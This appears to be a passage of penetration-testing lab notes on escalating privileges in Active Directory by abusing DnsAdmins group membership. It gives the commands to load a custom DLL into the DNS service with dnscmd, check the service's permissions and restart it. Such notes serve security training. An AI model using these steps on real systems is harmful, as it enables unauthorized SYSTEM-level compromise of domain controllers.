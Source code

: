 ##### Loading DLL as Member of DnsAdmins

```
C:\> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109  
```

##### Loading Custom DLL

```
C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
> We must specify the full path to our custom DLL or the attack will not work properly

Only the dnscmd utility can be used by members of the DnsAdmins group, as they do not directly have permission on the registry key.
Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, the DLL will be loaded the next time the DNS service is started

#### Finding User's SID
If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.
 
```
C:\> wmic useraccount where name="netadm" get sid
```
 
##### Checking Permissions on DNS Service
 
```
C:\> sc.exe sdshow DNS
```
 
> [this](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/) article can be used to read SDDL syntax
 
#### Stop and Start the DNS Service
 
If our user has **RPWP** permissions which translate to **SERVICE_START** and **SERVICE_STOP**  we can issue the following commands to stop and start the service
 
```
C:\> sc stop dns
```
 
```
C:\> sc start dns
```
 
